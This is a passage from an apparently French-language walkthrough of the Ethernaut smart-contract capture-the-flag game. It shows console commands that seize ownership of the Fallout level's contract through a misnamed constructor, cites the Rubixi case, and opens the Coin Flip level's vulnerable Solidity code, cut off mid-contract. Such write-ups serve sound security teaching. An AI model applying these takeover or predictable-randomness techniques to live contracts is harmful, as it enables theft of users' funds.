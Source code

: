 Nous allons simplement appeler la fonction `Fal1out()` pour devenir `owner`.

### Attaque

```javascript
> contract.owner() == player
false

> contract.Fal1out()

> await contract.owner() == player
true
```

> That was silly wasn't it? Real world contracts must be much more  secure than this and so must it be much harder to hack them right?
>
> Well... Not quite.
>
> The story of Rubixi is a very well known case in the Ethereum ecosystem.  The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but  somehow they didn't rename the constructor method of its contract:
>
> ```javascript
> contract Rubixi {
> address private owner;
> function DynamicPyramid() { owner = msg.sender; }
> function collectAllFees() { owner.transfer(this.balance) }
> ...
> ```
>
> This allowed the attacker to call the old constructor  and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.



---

## 3 - Coin Flip

---

> **TL;DR**
>
> Utilisation d'aléa basé sur des données prédictibles (`block.number`).

This is a coin flipping game where you need to build up your winning  streak by guessing the outcome of a coin flip. To complete this level  you'll need to use your psychic abilities to guess the correct outcome  10 times in a row.

```javascript
pragma solidity ^0.5.0;

import 'openzeppelin-solidity/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
```